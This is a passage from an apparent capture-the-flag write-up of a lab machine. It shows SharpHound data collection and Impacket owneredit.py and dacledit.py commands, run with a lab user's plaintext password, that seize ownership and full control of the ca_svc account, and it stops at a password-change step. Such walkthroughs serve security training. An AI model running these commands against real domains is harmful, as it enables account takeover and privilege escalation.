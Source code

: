 ![escape_info_card](/assets/images/escapetwo/winrm.png)

After transferring the SharpHound.exe binary over to ryan's desktop we can then execute it and save the data as a zip file using the following command:

```
.\SharpHound.exe -c All --zipfilename sequel.htb
```
## Finding the WriteOwner ACL
Once we have the data we can upload it to bloodhound from where we can view the following ACL.

![escape_info_card](/assets/images/escapetwo/acl.png)

Having WriteOwner over a user gives us the ability to take ownership of that account and change its password. We can do so with the following commands:
1. First we assign our user as a new owner


```
owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
```
2. Give ourselves full control over the account


```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250730-194539.bak
[*] DACL modified successfully
```
3. Change the password
